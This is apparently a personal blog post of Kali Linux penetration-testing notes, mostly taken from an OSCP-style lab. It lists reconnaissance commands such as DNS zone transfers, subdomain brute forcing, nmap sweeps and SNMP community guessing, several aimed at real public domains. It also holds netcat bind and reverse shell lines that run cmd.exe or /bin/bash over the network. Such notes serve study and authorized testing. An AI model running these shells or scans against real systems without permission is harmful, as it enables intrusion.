 ```yaml
---
layout: ../../../layouts/BlogPost.astro
title: "【Pentest】Kali学习命令汇总"
uuid: c06c95aa-4897-11ed-8fd9-f296579e3926
version: 2
created: Sun, 13 Jun 2021 14:33:33 +0000
tags:
- imported/evernote
---
```


updatedb\
locate sbd.exe\
which sbd\
find / -name sbd\*\
systemctl start ssh\
netstat -antp|grep sshd\
systemctl enable ssh\
systemctl start apache2\
netstat -antp |grep apache\
systemctl enable apache2\
wget [www.cisco.com](http://www.cisco.com/)\
ls -l index.html\
grep "href=" index.html\
grep "href=" index.html | cut -d "/" -f 3\
grep "href=" index.html | cut -d "/" -f 3 | grep "."\
grep "href=" index.html |cut -d "/" -f 3 | grep "." | cut -d '"' -f 1\
grep "href=" index.html | cut -d "/" -f 3 | grep "." | cut -d '"' -f 1 | sort -u\
cat index.html | grep -o '[http://\[^"\]\*](http://%5b%5e%22%5d%2a/)' | cut -d "/" -f 3 | sort -u > list.txt\
for url in $(cat list.txt); do host $url; done\
for url in $(cat list.txt); do host $url; done | grep "has address" | cut -d " " -f 4 | sort -u\
gunzip access_log.txt.gz\
mv access_log.txt access.log\
head access.log\
wc -l access.log\
cat access.log | cut -d " " -f 1 | sort -u\
cat access.log | cut -d " " -f 1 | sort | uniq -c | sort -urn\
cat access.log | grep '208.68.234.99' | cut -d """ -f 2 | uniq -c\
cat access.log | grep '208.68.234.99' | grep '/admin ' | sort -u\
cat access.log|grep '208.68.234.99'| grep -v '/admin '\
**nc** -nv 10.0.0.22 110\
C:\\Users\\offsec>nc -nlvp 4444\
nc -nv 10.0.0.22 4444\
C:\\Users\\offsec>nc -nlvp 4444 > incoming.exe\
locate wget.exe\
nc -nv 10.0.0.22 4444 < /usr/share/windows-binaries/wget.exe\
C:\\Users\\offsec>incoming.exe -h\
C:\\Users\\offsec>nc -nlvp 4444 -e cmd.exe\
ifconfig eth0 | grep inet\
nc -nv 10.0.0.22 4444\
C:\\Users\\offsec>nc -nlvp 4444\
nc -nv 10.0.0.22 4444 -e /bin/bash\
C:\\Users\\offsec>**ncat** --exec cmd.exe --allow 10.0.0.4 -vnl 4444 --ssl\
ncat -v 10.0.0.22 4444 --ssl\
**tcpdump** -r password_cracking_filtered.pcap\
tcpdump -n -r password_cracking_filtered.pcap | awk -F" " '{print $3}' | sort -u | head\
tcpdump -n src host 172.16.40.10 -r password_cracking_filtered.pcap\
tcpdump -n dst host 172.16.40.10 -r password_cracking_filtered.pcap\
tcpdump -n port 81 -r password_cracking_filtered.pcap\
tcpdump -nX -r password_cracking_filtered.pcap\
tcpdump -A -n 'tcp\[13\] = 24' -r password_cracking_filtered.pcap\
**theharvester** -d [cisco.com](http://cisco.com/) -b google >google.txt\
theharvester -d [cisco.com](http://cisco.com/) -l 10 -b bing >bing.txt\
**whois** [megacorpone.com](http://megacorpone.com/)\
whois 50.7.67.186\
recon-ng\
\[recon-ng\]\[default\] > use recon/domains-contacts/whois_pocs\
\[recon-ng\]\[default\]\[whois_pocs\] > show options\
\[recon-ng\]\[default\]\[whois_pocs\] > set SOURCE [cisco.com](http://cisco.com/)\
\[recon-ng\]\[default\]\[xssed\] > run

---

\[recon-ng\]\[default\] > use recon/domains-vulnerabilities/xssed\
\[recon-ng\]\[default\]\[xssed\] > set SOURCE [cisco.com](http://cisco.com/)\
\[recon-ng\]\[default\]\[xssed\] > run

---

\[recon-ng\]\[default\] > use recon/domains-hosts/google_site_web\
\[recon-ng\]\[default\]\[google_site_web\] > set SOURCE [cisco.com](http://cisco.com/)\
\[recon-ng\]\[default\]\[google_site_web\] > run\
**host** -t ns [megacorpone.com](http://megacorpone.com/)\
host -t mx [megacorpone.com](http://megacorpone.com/)\
host [www.megacorpone.com](http://www.megacorpone.com/)\
host [idontexist.megacorpone.com](http://idontexist.megacorpone.com/)\
nslookup -type=any [www.megacorpone.com](http://www.megacorpone.com/) -server 8.8.8.8\
dig @8.8.8.8 [sina.com](http://sina.com/) mx\
dig [baidu.com](http://baidu.com/) any\
dig +noall +answer -x 8.8.8.8\
dig +noall +answer txt chaos VERSION.BIND @[ns3.dnsv4.com](http://ns3.dnsv4.com/)\
dig +trace [example.com](http://example.com/)\
DNS区域传输\
dig @ns1.[example.com](http://example.com/) [example.com](http://example.com/) axfr\
host -T -l [sina.com](http://sina.com/) [ns3.sina.com](http://ns3.sina.com/)\
DNS字典爆破\
fierce -dnsserver 114.114.114.114 -dns [versun.org](http://versun.org/) -wordlist /usr/share/fierce/hosts.txt\
dnsdict6 -d4 -t 16 -x [sina.com](http://sina.com/) ##建议用这个，速度更快\
dnsrecon -d [versun.org](http://versun.org/) --lifetime 10 -t brt -D /usr/share/dnsrecon/namelist.txt\
echo www > list.txt\
echo ftp >> list.txt\
for ip in $(cat list.txt);do host $[\[ip.megacorpone.com\](http://ip.megacorpone.com/);done](\[http://ip.megacorpone.com\](http://ip.megacorpone.com/);done/)\
for ip in $(seq 155 190);do host 50.7.67.$ip;done |grep -v "not found"\
host -l [megacorpone.com](http://megacorpone.com/) [ns1.megacorpone.com](http://ns1.megacorpone.com/)\
host -l [megacorpone.com](http://megacorpone.com/) [ns2.megacorpone.com](http://ns2.megacorpone.com/)\
host -t ns [megacorpone.com](http://megacorpone.com/) | cut -d " " -f 4\
\#!/bin/bash\
if \[-z "$1"\]; then\
echo "\[\*\] Simple Zone transfer script"\
echo "\[\*\] Usage : $0 <domain name> "\
exit 0\
fi\
for server in $(host -t ns $1 |cut -d" " -f4);do\
host -l $1 $server |grep "has address"\
done\
chmod 755 [dns-axfr.sh](http://dns-axfr.sh/)\
./dns-axfr.sh [megacorpone.com](http://megacorpone.com/)\
**dnsrecon** -d [megacorpone.com](http://megacorpone.com/) -t axfr\
**dnsenum** [zonetransfer.me](http://zonetransfer.me/)\
nc -nvv -w 1 -z 10.0.0.19 3388-3390\
nc -nv -u -z -w 1 10.0.0.19 160-162\
**iptables** -I INPUT 1 -s 10.0.0.19 -j ACCEPT\
iptables -I OUTPUT 1 -d 10.0.0.19 -j ACCEPT\
iptables -Z\
**nmap** -sT 10.0.0.19\
iptables -vn -L\
iptables -Z\
nmap -sT -p 1-65535 10.0.0.19\
nmap -sn 10.11.1.1-254 利用ping来发现\
nmap -v -sn 10.11.1.1-254 -oG ping-sweep.txt\
grep Up ping-sweep.txt | cut -d " " -f 2\
nmap -p 80 10.11.1.1-254 -oG web-sweep.txt\
grep open web-sweep.txt |cut -d" " -f2\
nmap -sT -A --top-ports=20 10.11.1.1-254 -oG top-port-sweep.txt\
nmap -O 10.0.0.19\
nmap -sV -sT 10.0.0.19\
nmap 10.0.0.19 --script smb-os-discovery.nse\
nmap --script=dns-zone-transfer -p 53 [ns2.megacorpone.com](http://ns2.megacorpone.com/)\
nmap -v -p 139,445 -oG smb.txt 10.11.1.1-254\
nbtscan -r 10.11.1.0/24\
enum4linux -a 10.11.1.227\
nmap -v -p 139, 445 --script=smb-os-discovery 10.11.1.227\
ls -l /usr/share/nmap/scripts/smb\*\
nmap -v -p 139,445 --script=smb-vuln-ms08-067 --script-args=unsafe=1 10.11.1.201\
nc -nv 10.11.1.215 25\
nmap -sU --open -p 161 10.11.1.1-254 -oG mega-snmp.txt\
echo public > community\
echo private >> community\
echo manager >> community\
for ip in $(seq 1 254);do echo 10.11.1.$ip;done > ips\
onesixtyone -c community -i ips\
snmpwalk -c public -v1 10.11.1.219\
snmpwalk -c public -v1 10.11.1.204 1.3.6.1.4.1.77.1.2.25\
nmap -v -p 80 --script=http-vuln-cve2010-2861 10.11.1.210\
nmap -v -p 21 --script=ftp-anon.nse 10.11.1.1-254\
nmap -v -p 139, 445 --script=smb-security-mode 10.11.1.236\
nmap -v -p 80 --script=http-vuln-cve2011-3192 10.11.1.205-210\
nmap -iL iplist.txt -sn\
tcpdump -i eth0 -s 0 -w file.pcap\
tcpdump -i eth0 port 22\
tcpdump -r file.pcap\
tcpdump -A -r file.pcap\
tcpdump -X -r file.pcap\
tcpdump -n -r http.cap //-n：不解析里面出现的IP地址\
tcpdump -n src host 192.168.2.33 -r http.cap\
tcpdump -n tcp port 53 -r http.cap\
tcpdump -n port 53 -r http.cap\
tcpdump -A -n 'tcp\[13\]=24' -r http.cap\
利用搜索引擎\
theharvester -d [163.com](http://163.com/) -l 200 -b bing #搜索邮件和主机\
metagoofil -d [sina.com](http://sina.com/) -t pdf -l 200 -o test -f 1.html\
通过代理启动一个命令\
proxychains theharvester......\
专属密码字典生成\
cupp\
图片exif信息查询\
exiftool 1.jpg\
arp-二层发现\
主动发现：\
arping\
netdiscover -i eth0 -r 1.1.1.0/24\
netdiscover -l iplist\
被动发现(混杂监听)：\
netdiscover -p\
三层发现\
fping -g 192.168.1.1 192.168.1.100 -c 2 地址段\
hping3 192.168.1.1 —icmp -c 2\
scapy\
response=sr1(IP(dst="192.168.1.1")/TCP(dport=80,flags='A'),timeout=1)\
四层发现(nmap -PU)\
nmap 1.1.1.1-254 -PU53333 -sn (udp主机发现)\
nmap 1.1.1.1-254 -PA80 -sn （ACK包）\
hping3 192.168.1.1 —udp -c 2 -A （ACK包，默认为TCP）